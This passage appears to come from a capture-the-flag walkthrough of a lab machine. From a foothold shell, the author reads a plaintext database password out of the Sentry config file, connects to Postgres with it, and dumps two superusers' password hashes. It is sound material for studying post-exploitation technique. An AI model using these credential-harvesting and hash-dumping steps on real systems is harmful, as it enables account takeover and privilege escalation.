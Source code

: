 I tried to read the `auth_user` table, but this user doesn’t have permissions:

```

sentry=> select id,username,password,is_superuser from auth_user;
ERROR:  permission denied for relation auth_user

```

Looking in `/etc`, there’s a config file for Sentry at `/etc/sentry/sentry.conf.py`, and it has connection information for a different user:

```

...[snip]...
DATABASES = {                                       
    'default': {
        'ENGINE': 'sentry.db.postgres',
        'NAME': 'sentry',                           
        'USER': 'sentry',
        'PASSWORD': 'SentryPassword2021',
        'HOST': 'localhost',
        'PORT': '',
    }     
}
...[snip]...

```

On connecting, judging by the prompt this user is elevated:

```

www-data@developer:/etc/sentry$ psql postgresql://sentry:SentryPassword2021@localhost:5432/sentry  
psql (9.6.22)
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

sentry=#

```

There are two users:

```

sentry=# select id,username,password,is_superuser from auth_user;
 id |      username       |                                   password                                    | is_superuser 
----+---------------------+-------------------------------------------------------------------------------+--------------
  1 | karl@developer.htb  | pbkdf2_sha256$12000$wP0L4ePlxSjD$TTeyAB7uJ9uQprnr+mgRb8ZL8othIs32aGmqahx1rGI= | t
  5 | jacob@developer.htb | pbkdf2_sha256$12000$MqrMlEjmKEQD$MeYgWqZffc6tBixWGwXX2NTf/0jIG42ofI+W3vcUKts= | t
(2 rows)

```
